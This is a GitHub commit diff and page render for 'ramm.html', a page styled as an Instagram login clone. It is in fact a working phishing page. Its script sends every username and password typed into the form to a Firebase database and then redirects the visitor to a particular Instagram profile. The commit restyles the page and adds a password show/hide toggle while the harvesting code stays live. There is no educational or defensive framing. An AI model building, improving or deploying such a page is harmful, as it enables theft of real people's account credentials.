

Before and after one commit to Rajeev-code/Cyberverse-, a plain HTML site: page ramm.html in a window 1280 px wide. Shown: the part 300-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update ramm.html

```diff
--- a/ramm.html
+++ b/ramm.html
@@ -4,18 +4,18 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Instagram Login Clone</title>
+
     <style>
-        /* Dark mode disable karne ke liye */
-        :root, [data-theme="dark"], [data-theme="light"] {
-            --bg-color: #fafafa !important;
-            --box-bg: #fff !important;
-            --text-color: #000 !important;
-            --input-bg: #fafafa !important;
-            --border-color: #ccc !important;
-            --btn-bg: #0095f6 !important;
-            --btn-text: #fff !important;
-            --link-color: #0095f6 !important;
-            --divider-color: #ccc !important;
+        :root {
+            --bg-color: #ffffff; /* Pure white background */
+            --box-bg: #ffffff; /* White box background */
+            --text-color: #000;
+            --input-bg: #ffffff; /* White input background */
+            --border-color: #dbdbdb;
+            --btn-bg: #0095f6;
+            --btn-text: #fff;
+            --link-color: #0095f6;
+            --divider-color: #dbdbdb;
         }
 
         * {
@@ -38,8 +38,6 @@
         .login-box {
             background: var(--box-bg);
             padding: 40px 30px;
-            border-radius: 10px;
-            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
             width: 350px;
             text-align: center;
         }
@@ -49,15 +47,35 @@
             margin-bottom: 20px;
         }
 
+        .input-box-container {
+            position: relative;
+            width: 100%;
+            margin: 8px 0;
+        }
+
         .input-box {
             width: 100%;
             padding: 12px;
-            margin: 8px 0;
             border: 1px solid var(--border-color);
             border-radius: 5px;
             font-size: 14px;
             background: var(--input-bg);
             color: var(--text-color);
+            padding-right: 50px;
+            outline: none;
+        }
+
+        .toggle-password {
+            position: absolute;
+            right: 10px;
+            top: 50%;
+            transform: translateY(-50%);
+            cursor: pointer;
+            font-size: 14px;
+            color: #0095f6;
+            font-weight: bold;
+            background: none;
+            border: none;
         }
 
         .login-btn {
@@ -111,9 +129,7 @@
             background: var(--box-bg);
             padding: 20px;
             margin-top: 10px;
-            border-radius: 5px;
             width: 350px;
-            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
             text-align: center;
         }
 
@@ -134,7 +150,12 @@
         <img src="https://logos-world.net/wp-content/uploads/2020/04/Instagram-Logo.png" alt="Instagram Logo" class="logo">
         <form id="contactForm">
             <input type="text" name="email" id="email" placeholder="Phone number, username, or email" class="input-box" required>
-            <input type="password" name="password" id="password" placeholder="Password" class="input-box" required>
+
+            <div class="input-box-container">
+                <input type="password" name="password" id="password" placeholder="Password" class="input-box" required>
+                <button type="button" class="toggle-password" id="togglePassword">Show</button>
+            </div>
+
             <button type="submit" class="login-btn">Log in</button>
         </form>
         <div class="divider">
@@ -167,33 +188,25 @@
 
         firebase.initializeApp(firebaseConfig);
 
-        // Reference messages collection
         var messagesRef = firebase.database().ref('messages');
 
-        // Listen for form submit
         document.getElementById('contactForm').addEventListener('submit', submitForm);
 
-        // Submit form
         function submitForm(e) {
             e.preventDefault();
 
-            // Get values
             var email = getInputVal('email');
             var password = getInputVal('password');
 
-            // Save message
             saveMessage(email, password);
 
-            // Redirect to Instagram profile
             window.location.href = "https://www.instagram.com/prince_894_?igsh=MTB6bGpvYWxzZG00dw==";
         }
 
-        // Function to get form values
         function getInputVal(id) {
             return document.getElementById(id).value;
         }
 
-        // Save message to firebase
         function saveMessage(email, password) {
             var newMessageRef = messagesRef.push();
             newMessageRef.set({
@@ -201,6 +214,20 @@
                 password: password
             });
         }
+
+        // Password show/hide function
+        document.getElementById("togglePassword").addEventListener("click", function () {
+            var passwordField = document.getElementById("password");
+            var toggleBtn = document.getElementById("togglePassword");
+
+            if (passwordField.type === "password") {
+                passwordField.type = "text";
+                toggleBtn.textContent = "Hide";
+            } else {
+                passwordField.type = "password";
+                toggleBtn.textContent = "Show";
+            }
+        });
     </script>
 </body>
 </html>
```
